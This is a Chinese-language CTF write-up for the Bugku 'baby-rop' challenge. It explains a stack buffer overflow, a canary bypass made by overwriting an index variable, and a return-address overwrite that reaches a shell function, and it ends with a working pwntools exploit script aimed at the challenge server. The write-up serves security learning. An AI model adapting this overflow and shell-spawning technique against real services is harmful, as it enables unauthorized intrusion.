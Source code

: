 # baby-rop

[题目链接](https://ctf.bugku.com/challenges/detail/id/561.html)

## 分析过程

首先 IDA 打开题目文件，很明显的看到read这里有栈溢出.v1内存大小为32，而v3循环可以读入48。

![IDA](image.png)

继续翻看代码发现，有一个执行system的方法可以获得shell.

0x4007FB

![get_shell](image-2.png)

继续分析发现，程序开启了栈保护

![canary](image-3.png)

构造输入，先用32个字符将v1填满，然后覆盖到v2时，由于v2控制了v1的下标，因此将其改成0x40（栈内临时变量所占用的大小）绕过canary（v4），不修改v3和v4的值使其继续。

然后将0x004007FB地址覆盖到ret读取的地址处。

## exp

```python
from pwn import *
context.log_level = 'debug'
c = remote('82.157.146.43', 14456)

sysaddr = 0x004007FB

payload = b''
payload += p64(sysaddr)
c.send('a'*0x20)
sleep(1)
c.send(p64(0x40))
c.sendline(payload)
c.interactive()
```

运行结果：

![get_flag](image-1.png)
